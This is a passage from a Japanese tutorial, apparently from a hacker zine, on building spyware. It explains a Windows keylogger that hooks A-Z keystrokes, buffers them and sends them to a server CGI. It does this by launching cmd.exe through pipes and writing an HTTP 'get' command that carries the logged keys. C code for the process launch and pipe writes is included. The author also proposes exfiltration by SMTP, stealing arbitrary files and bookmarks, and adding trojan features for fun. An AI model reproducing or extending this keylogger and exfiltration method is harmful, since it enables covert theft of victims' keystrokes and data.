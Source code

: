 　WM_CREATEでMySetHookを呼び、WM_DESTROYでMyEndHookを呼んでいます。どち
らもDLL側の関数でキーフックの開始、終了を制御します。WM_KEYHOOKはフック
されたキーをもらいますのでA-Zのいずれかの文字ならばMainMemory変数に保存
させます。一定の長さが溜まったらSendLogDataに渡すという部分は同じです。

　SendLogData関数はまずCreateProcessでcmd.exeを起動させます。そして、
cmd.exeの標準入力に"get http://localhost/save.cgi?keycode"というような送
信処理を任せる文字列を入力します。よってcmd.exeをあらかじめパイプで繋い
でおく必要があります。

-----
    PROCESS_INFORMATION PI;
    if(CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 
        0, NULL, NULL, &SI, &PI) != TRUE){
            CloseHandle(fd_read);
            CloseHandle(fd_write);
            CloseHandle(pfd_in[R]);
            CloseHandle(pfd_out[W]);
            return TRUE;
    }
-----

　ここで、プロセスを起動しています。この処理の前に標準入出力をパイプで繋
ぐ処理があります。このあとに標準入力にデータを渡し、cmd.exeを終了させる
ためにさらに"exit\r\n"を入力してプロセスを終了します。

-----
    DWORD sLen;
    WriteFile(fd_read, SendAllData, (int)strlen(SendAllData), &sLen, NULL);
    FlushFileBuffers(fd_read);

    WriteFile(fd_read, "exit\r\n", 6, &sLen, NULL);
    FlushFileBuffers(fd_read);

    WaitForSingleObject(PI.hProcess, 3000);
-----

　こんな感じです。パイプやプロセス生成、スレッドといったものは前回の記事
で説明していますので今回は省きます。実行してみると、ＩＥ版と同様にデータ
をサーバ（save.cgi）に送信できることが分かります。

　さて、これで一応ひととおり終了です。今回は３つの方法でスパイウェアを作
ってみました。といってもすべてHTTP関連でしたが、もちろんメール送信にして
もよいです。SMTPでログをメールで送るなんてのでもよいと思いますし、CGI側
でsendmailを起動してメールで送るという形でも面白いでしょう。他にも実現方
法はいろいろとあると思いますので考えてみてください。


■0x07.) 最後に

　さて、いかがだったでしょうか。今回は内部のデータを外部に送信するソフト
ウェアを作ってみました。ご覧のとおりスパイウェアといっても実現方法はたく
さんあります。今回はキーログを送信してみましたが、もちろん任意のファイル
やお気に入りのＨＰアドレスなど他にもさまざまな情報に対応できると思います。
タイトルは違えど前回の記事とネタは似てますのでトロイの機能追加などをして
みても楽しめるかと思います（というか私はそうやって楽しんでました^^）。さ
て最後になりましたがここまで付き合って読んでくださった方本当に有り難うご
ざいました。
